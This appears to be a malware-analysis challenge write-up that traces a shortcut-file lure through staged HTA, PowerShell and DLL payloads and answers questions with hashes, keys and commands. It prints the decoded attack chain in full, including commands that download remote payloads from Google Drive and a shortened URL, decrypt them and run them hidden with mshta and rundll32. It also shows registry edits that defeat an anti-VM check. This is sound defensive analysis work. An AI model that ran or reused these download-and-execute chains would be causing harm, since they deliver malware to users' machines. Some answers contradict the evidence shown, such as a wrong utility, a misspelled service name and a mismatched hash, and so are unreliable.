# The Lure

> **Scenario:** An employee reported a strange email attachment. Your task is to analyze the extracted files and uncover the initial attack vector.



### 1.1.1 Question 1
```
What is the SHA256 hash of the decoy file?
```

R: 1D01EAB612DA7D635E6B92395EAD126E3E07B7987B3A38C8831E25CBCD5456B7



---

### 1.1.2 Question 2
```
What is the SHA-256 hash of the suspected malicious file?
```

R: E51C6DAF902638023E5922A871279E57D858761EF500C3BCB214737CD39FCBDD



---

### 1.1.3 Question 3
```
Which legitimate file type is the malicious file attempting to impersonate?
```

R: .txt

---

### 1.1.4 Question 4
```
When was this malicious shortcut file created?
```

R: 2025-03-11 19:03:42



---

### 1.1.5 Question 5
```
Which system executable is explicitly targeted to run by this malicious file?
```

R: powershell.exe



---

### 1.1.6 Question 6
```
To visually deceive the user, the malicious file uses a specific Icon Index. What is the index number?
```

R: 97



---

### 1.1.7 Question 7
```
What specific 'Show window' flag is set to ensure the payload executes silently without alerting the user?
```

R: SW_SHOWMINNOACTIVE



---

### 1.1.8 Question 8
```
After decoding the payload, what is the full command executed by the malicious file?
```

R: powershell mshta "https[:]//link24[.]kr/A46bl74"



---

### 1.1.9 Question 9
```
Which adversary technique is being used when the malicious file leverages a trusted Windows system executable to execute its payload?
```

R: System Binary Proxy Execution

---

### 1.1.10 Question 10
```
The decoded payload utilizes a specific utility to proxy execution. What is the MITRE ATT&CK Sub-technique ID associated with the abuse of this specific binary?
```

R: T1218.005

---

### 1.1.11 Question 11
```
The initial payload makes a network request to a shortened URL. What is the full URL provided in the HTTP redirect response?
```

We have the real code that is executed by the malware, after being decrypted:

```powershell
cscript.exe .\stage1.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

WScript.shell

cmd /c cd /d %temp% && curl -L -o password.txt "https://drive.google.com/uc?export=download&id=1u0g1doVUDc5VCeP653aze60SGlhs3efQ" && password.txt

cmd /c sc query WinDefend

If block ->
cmd /c cd /d %temp% && curl -L -o v3.log "https://drive.google.com/uc?export=download&id=1x49L0vvAqk_DIh2ymESmd48dc6QZ7Wto" && powershell -Command "[System.IO.File]::WriteAllBytes('v3.hta', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('v3.log'), 0, [System.IO.File]::ReadAllBytes('v3.log').Length))" && del v3.log && mshta %temp%\v3.hta

Else block ->
cmd /c cd /d %localappdata% && curl -L -o pipe.log "https://drive.google.com/uc?export=download&id=1jqpw8UHpsY5ps3nKOfkyo2ql4hC23Mew" && powershell -Command "[System.IO.File]::WriteAllBytes('pipe.zip', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('pipe.log'), 0, [System.IO.File]::ReadAllBytes('pipe.log').Length))" && del pipe.log && powershell Expand-Archive -Path pipe.zip && del pipe.zip
cmd /c cd /d %localappdata% && cd pipe && powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -File 1.ps1 -FileName 1.log
```

R: https[:]//github[.]com/deepsearch-tech/ref/releases/download/v1.0.0/pwko[.]hta?v=1 

---

### 1.1.12 Question 12
```
The redirect points to a specific file hosted on a public code repository. What is the name and extension of this downloaded file?
```

R: pwko.hta

---

### 1.1.13 Question 13
```
The redirected URL points to a file hosted on a public repository. What is the username or organization name associated with this repository?
```

R: deepsearch-tech

---

# Remote Staging

> **Scenario:** The attacker leverages cloud infrastructure to deliver additional payloads. Analyze the retrieved scripts and map the delivery mechanism

### 2.1.1 Question 1
```
What is the SHA256 hash of the file downloaded from the public repository?
```

R: 587bdf94bdaebcee4b51202beb507125a7fa37d705fb38cc076a9c1814578411

pwko.hta file that was downloaded from the repository.

---

### 2.1.2 Question 2
```
What is the exact file size in bytes of this downloaded payload?
```

R: 58290

---

### 2.1.3 Question 3
```
What is the primary scripting object utilized by the HTA file to execute system commands?
```

R: WSCRIPT.SHELL

---

### 2.1.4 Question 4
```
Which environment variable does the script use to set the working directory at the start?
```

After manually decrypting the .hta file, here it is:

```powershell
cscript.exe .\stage1.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

WScript.shell

cmd /c cd /d %temp% && curl -L -o password.txt "https://drive.google.com/uc?export=download&id=1u0g1doVUDc5VCeP653aze60SGlhs3efQ" && password.txt

cmd /c sc query WinDefend

If block ->
cmd /c cd /d %temp% && curl -L -o v3.log "https://drive.google.com/uc?export=download&id=1x49L0vvAqk_DIh2ymESmd48dc6QZ7Wto" && powershell -Command "[System.IO.File]::WriteAllBytes('v3.hta', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('v3.log'), 0, [System.IO.File]::ReadAllBytes('v3.log').Length))" && del v3.log && mshta %temp%\v3.hta

Else block ->
cmd /c cd /d %localappdata% && curl -L -o pipe.log "https://drive.google.com/uc?export=download&id=1jqpw8UHpsY5ps3nKOfkyo2ql4hC23Mew" && powershell -Command "[System.IO.File]::WriteAllBytes('pipe.zip', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('pipe.log'), 0, [System.IO.File]::ReadAllBytes('pipe.log').Length))" && del pipe.log && powershell Expand-Archive -Path pipe.zip && del pipe.zip
cmd /c cd /d %localappdata% && cd pipe && powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -File 1.ps1 -FileName 1.log
```



R: %TEMP%

---

### 2.1.5 Question 5
```
The script retrieves multiple payloads from a cloud storage service. What is the domain name of this provider?
```

The malware used Google's cloud service, Google Drive, to then store the next stages.



R: drive.google.com

---

### 2.1.6 Question 6
```
The script downloads a text file used to provide access to the decoy document. What password is stored within this file?
```

R: kfgxl;Y859$#KG4fkdl^&

---

### 2.1.7 Question 7
```
Which full command line does the script use to query the status of the host's antivirus service?
```

R: cmd /c sc query WinDefender

---

### 2.1.8 Question 8
```
The downloaded payloads are encrypted to conceal their contents. What is the 32-byte AES key used for decryption?
```

He uses the CreateDecryptor function, basically this function creates a symmetric decrypted object, then provides the decryption key.



R: ftrgmjekglgawkxjynqrwxjvjsydxgjc

---

### 2.1.9 Question 9
```
What is the Initialization Vector used in conjunction with the AES key?
```

Within the 'CreateDecryptor' call, the IV is provided as the second byte-array parameter.

R: rhmrpyihmziwkvln

---

### 2.1.10 Question 10
```
After the payload is decrypted, which full command is executed in the block that runs only when the antivirus service is stopped?
```



R: mshta %temp%\v3.hta

---

### 2.1.11 Question 11
```
When the script determines that the security service is running, it decrypts a downloaded file into an archive. What is the name of this resulting archive?
```

R: pipe.zip

---

# Unpacking the Nest

> **Scenario:** Encoded artifacts have been carved from a downloaded payload. Decode the layers and identify the hidden components

## 3.1.1 Question 1
```
What is the exact file size in bytes before decrypting?
```

At the stage above we see, we go back to the following command line:

```powershell
cmd /c cd /d %temp% && curl -L -o v3.log "https://drive.google.com/uc?export=download&id=1x49L0vvAqk_DIh2ymESmd48dc6QZ7Wto"
```

Right after the execution, we have the pure v3.log, encrypted, but in the rest of the code line, we see the command/key that the malware uses to decrypt the file:

```powershell
powershell -Command "[System.IO.File]::WriteAllBytes('v3.hta', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('v3.log'), 0, [System.IO.File]::ReadAllBytes('v3.log').Length))"
```
 
After we use it, we end up with a v3.hta file:



R: 4821632

---

## 3.1.2 Question 2
```
What is the SHA256 hash of the encrypted file?
```

```powershell
Get-FileHash v3.log -Algorithm SHA256

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          411A5FD77961E5DF89A81165824EDA33D4B4049F26F7358ED2BC688B70430901       
```

R: 411A5FD77961E5DF89A81165824EDA33D4B4049F26F7358ED2BC688B70430901

---

## 3.1.3 Question 3
```
What is the exact file size in bytes after decrypting?
```

R: 4821622

---

## 3.1.4 Question 4
```
What is the SHA256 hash of the decrypted payload?
```

```powershell
Get-FileHash v3.hta -Algorithm SHA256

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          A358AC6BE54B74AA1AF1D5FBFC26AA5D8EF714A042CC3AAFDF8CC0F777D9C773       
```

R:A358AC6BE54B74AA1AF1D5FBFC26AA5D8EF714A042CC3AAFDF8CC0F777D9C773

---

## 3.1.5 Question 5
```
The files downloaded in this stage are saved in a single, well-known location. What is the environment variable for this folder?
```

After decrypting, we have:

```powershell
cscript.exe .\stage2.vbs

Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

WScript.shell

cmd /c cd /d %localappdata% && findstr /b "tvKUW2rB" "

cmd /c cd /d %localappdata% && findstr /b "tvKUW2rB" "">2.log && certutil -decode -f 2.log user.txt && del 2.log

cmd /c cd /d %localappdata% && findstr /b "TVqQAAMAAA" "

cmd /c cd /d %localappdata% && findstr /b "TVqQAAMAAA" "">1.log && powershell -Command "[IO.File]::WriteAllBytes('sys.dll', [Convert]::FromBase64String((Get-Content '1.log' -Raw)))" && del 1.log && rundll32 sys.dll,h
```

Clearly, the downloaded files are passed to the environment variable **%localappdata%**.

R: %localappdata%

---

## 3.1.6 Question 6
```
The malicious HTA script utilizes two separate file-carving operations to extract data. Which legitimate Windows utility is used to perform this carving?
```

He uses **findstr**, which is used to search for text patterns in files. 

In this case, he searches for file names like **"tvKUW2rB"**, **"TVqQAAMAAA"**, both names encrypted in base64.

R: findstr

---

## 3.1.7 Question 7
```
What is the unique starting string used to identify the first block of data that is written to a temporary log file?
```

```powershell
cmd /c cd /d %localappdata% && findstr /b "tvKUW2rB" "">2.log && certutil -decode -f 2.log user.txt && del 2.log
```

R: tvKUW2rB

---

## 3.1.8 Question 8
```
What is the specific legitimate Windows binary used to decode the first extracted data block, which is then saved as a text file?
```

Let's break down the command above.

First, it searches files for lines that start with **'tvKUW2rB'**, and saves the result in **2.log**.

```powershell
findstr /b "tvKUW2rB" "">2.log
```

'**&&**' means that it only continues if the previous command returns success, so, continuing:

```powershell
certutil -decode -f 2.log user.txt
```

**certutil** tries to decode the content of 2.log as Base64 and saves the result in **user.txt**.

```powershell
&& del 2.log
```

If certutil is successful, delete 2.log.

R: certutil

---

## 3.1.9 Question 9
```
What is the unique starting string used to identify the second block of data?
```

R: TVqQAAMAAA

---

## 3.1.10 Question 10
```
What is the file name that is decoded and executed by the final command in this stage?
```

```powershell
findstr /b "TVqQAAMAAA" v3.hta > 1.log

powershell -Command "[IO.File]::WriteAllBytes('sys.dll', [Convert]::FromBase64String((Get-Content '1.log' -Raw)))"

Get-FileHash sys.dll

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          DE7FE8842C46BC5C2F723DEE3D4B07043D531D067C06CAA3263000BCC41AECDD      
```

R: sys.dll

---

## 3.1.11 Question 11
```
Which Windows utility is used to achieve final execution?
```

To manually run a DLL on Windows, you use **rundll32.exe**, which is found added to the system PATH.

**Utilizacao:** rundll32.exe (DLLname)

At the end of the malware's PowerShell command, we have its execution:

```powershell
rundll32 sys.dll,h
```

R: sys.dll

---

## 3.1.12 Question 12
```
What is the SHA256 hash of the first carved encoded file?
```

```powershell
Get-FileHash 2.log

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          02F198CDD983077A6D996083FE20F60040B02E058E5E7E6ECF7AA491013F8123 

dir .\2.log


    Diretório: 


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/25/2026   6:27 PM          354 2.log
```     

R: 0BC4BF36EAF031F8A31BAEB1969B9CADFCBC82A804883F6865B8FB4ED988383B

---

## 3.1.13 Question 13
```
What is the exact file size in bytes of the first carved encoded file?
```

R: 354

---

## 3.1.14 Question 14
```
What is the file size in bytes after decoding?
```

```powershell
certutil -decode -f 2.log user.txt
Comprimento de entrada = 710
Comprimento de saída = 262
CertUtil: -decode : comando concluído com êxito.

dir .\user.txt

    Diretório: 

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/25/2026   6:31 PM            262 user.txt

Get-FileHash .\user.txt

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          6EA362409A97ACA030F2A59EA01A29DBFE574B77F8F0D749CF38B412FAC2451D       
```

R: 262

---

## 3.1.15 Question 15
```
What is the SHA256 hash of the decoded file?
```

R: 6EA362409A97ACA030F2A59EA01A29DBFE574B77F8F0D749CF38B412FAC2451D

---

## 3.1.16 Question 16
```
What is the file size in bytes of the second carved encoded file (With Newline)?
```

```powershell
findstr /b "TVqQAAMAAA" v3.hta > 1.log

dir 1.log

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     11:56        4808026 1.log

Get-FileHash .\1.log

Algorithm       Hash
---------       ----
SHA256          6dd92d3f14cb5ce0bb49a73032ef14a4ed3c62f38028fee40d5ffeeb245d9855
```

R: 4808026 

---

## 3.1.17 Question 17
```
What is the SHA256 hash of the second carved encoded file?
```

R: 6dd92d3f14cb5ce0bb49a73032ef14a4ed3c62f38028fee40d5ffeeb245d9855

---

## 3.1.18 Question 18
```
What is the file size in bytes after decoding?
```

```powershell
powershell -Command "[IO.File]::WriteAllBytes('sys.dll', [Convert]::FromBase64String((Get-Content '1.log' -Raw)))"

dir .\sys.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        04-12-2025     12:21        3606016 sys.dll

Get-FileHash .\sys.dll

Algorithm       Hash
---------       ----
SHA256          DE7FE8842C46BC5C2F723DEE3D4B07043D531D067C06CAA3263000BCC41AECDD
```

R: 3606016

---

## 3.1.19 Question 19
```
What is the SHA256 hash of the second decoded file?
```

R: DE7FE8842C46BC5C2F723DEE3D4B07043D531D067C06CAA3263000BCC41AECDD

---

# The Loader

> **Scenario:** A protected binary orchestrates payload deployment. Defeat the protections and trace the execution flow.

## 4.1.1 Question 1
```
Based on the static analysis tool, what is the specific commercial protector/packer used on the malware?
```

At the end of the past internship, it resulted in a 'sys.dll' file, which we are now going to dive into.



R: Themida

---

## 4.1.2 Question 2
```
What is the original filename the author used for the malware before it was packed and renamed to 'sys.dll'?
```

Since we know that Themida was used for packing, I used the unlicense tool to be able to unpack it, available at https://github.com/ergrelet/unlicense.

In my case, using Flare-VM on VirtualBox, I had a problem: Themida detects VirtualBox using a hardware-related registry value that is different. We can see it in the execution:

```powershell
.\unlicense.exe sys.dll
INFO - Detected packer version: 2.x
frida-agent: Setting up OEP tracing for "sys.dll"
frida-agent: Target module has been loaded (thread #3488) ...
frida-agent: Exception handler registered
ERROR - Original entry point wasn't reached before timeout
Traceback (most recent call last):
  File "unlicense\application.py", line 90, in run_unlicense
SystemExit: 4

During handling of the above exception, another exception occurred:

frida.InvalidOperationError: script has been destroyed
[5020] Failed to execute script '__main__' due to unhandled exception!
```

The following PowerShell commands show the queried values:

```powershell
(Get-ItemProperty -Path "HKLM:\HARDWARE\Description\System").VideoBiosVersion
Oracle VirtualBox Version 7.2.4 VGA BIOS
Oracle VirtualBox Version 7.2.4 VGA BIOS
Oracle VirtualBox Version 7.2.4
Oracle VirtualBox Version 7.2.4

(Get-ItemProperty -Path "HKLM:\HARDWARE\Description\System").SystemBiosVersion
VBOX   - 1
```

To get around this detection, the registry values can be changed to remove the VirtualBox identifiers and replace them with any descriptions:

```powershell
Set-ItemProperty -Path "HKLM:\HARDWARE\Description\System" -Name "SystemBiosVersion" -Value "Google"

Set-ItemProperty -Path "HKLM:\HARDWARE\Description\System" -Name "VideoBiosVersion" -Value "Google"
```

> **Note:** This operation requires administrator privileges, as the registry key is protected.

After making the change to these values, the VirtualBox fingerprint is no longer present, preventing Themida from detecting the environment.

Now we will go back with the unlicense tool to successfully unpack it.

```powershell
.\unlicense.exe .\sys.dll
INFO - Detected packer version: 2.x
frida-agent: Setting up OEP tracing for "sys.dll"
frida-agent: Target module has been loaded (thread #4180) ...
frida-agent: Exception handler registered
frida-agent: OEP found (thread #4180): 0x7ff991cf5a9c
INFO - OEP reached: OEP=0x7ff991cf5a9c BASE=0x7ff991cf0000 DOTNET=False
INFO - Looking for wrapped imports ...
INFO - Potential import wrappers found: 0
INFO - Resolving imports ...
INFO - Imports resolved: 106
INFO - Generated the fake IAT at 0x7ff991ce0000, size=0x350
INFO - Patching call and jmp sites ...
INFO - Dumping PE with OEP=0x7ff991cf5a9c ...
INFO - Fixing dump ...
INFO - Rebuilding PE ...
INFO - Output file has been saved at 'unpacked_sys.dll'
```

Now we have the file 'unpacked_sys.dll', in the search for strings that might show us the supposed old name of the file, we have:



R: baby.dll

---

## 4.1.3 Question 3
```
Following the unpacking of sys.dll, what is the first MITRE ATT&CK sub-technique invoked by the malware using its export function?
```

In our unpacked .dll file, in its exported functions, we can see something:



We can analyze this export code within IDA. When we see the first code block, we can already assume that we have an Anti-VM function used by the malware.

